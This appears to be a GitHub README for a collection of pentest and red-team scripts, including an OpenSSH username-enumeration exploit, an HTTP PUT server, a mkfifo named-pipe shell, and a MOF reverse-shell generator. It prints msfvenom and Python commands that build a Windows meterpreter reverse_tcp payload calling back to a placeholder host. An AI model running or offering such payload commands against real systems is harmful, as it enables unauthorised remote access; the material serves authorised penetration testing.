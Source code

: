 A collection of some useful script for pentesters or red teamers


## [sshUsernameEnumExploit.py](https://github.com/Malayke/Scripts/tree/master/CVE-2018-15473-sshUsernameEnumExploit)

OpenSSH < 7.7 username enumeration exploit  
OpenSSH 版本小于7.7 用户名枚举漏洞利用工具 

## HTTPPutServer.py

A simple HTTP PUT Server write by python  

用 Python 写的 HTTP PUT Server

## web-rce-named-pipe-shell.py

A named pipe tty shell via mkfifo.

## generate-mof-reverse-shell-file.py

This python script can generate a MOF reverse shell file.

First step, generate vbs reverse shell shellcode via `msfvenom`

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e generic/none -f vbs -o reverse_shell.vbs
```

then generate MOF file: 

```
$ python3 generate-mof-reverse-shell-file.py reverse_shell.vbs > reverse_shell.mof
```
